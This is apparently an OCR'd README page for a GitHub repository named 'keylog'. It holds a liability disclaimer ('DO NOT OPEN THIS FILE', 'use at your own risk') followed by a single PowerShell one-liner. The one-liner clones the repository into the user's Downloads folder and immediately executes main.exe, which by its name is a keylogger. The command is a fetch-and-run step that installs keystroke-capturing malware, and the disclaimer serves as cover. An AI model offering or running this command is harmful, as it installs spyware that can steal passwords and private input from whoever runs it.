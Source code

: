 WARNING – DO NOT OPEN THIS FILE

This file is not intended to be executed or interacted with by unauthorized users.

It is part of a personal project or internal demonstration and may behave in unexpected ways.By opening or running this file, you accept full responsibility for any consequences that may occur.

I am not liable for any damage, malfunction, data loss, or other effects resulting from its use.

If you were not explicitly instructed to run this file, do NOT open it.

– Use at your own risk.


git clone https://github.com/Xcrafteur27/keylog.git "$env:USERPROFILE\Downloads\keylog" ; & "$env:USERPROFILE\Downloads\keylog\main.exe"****
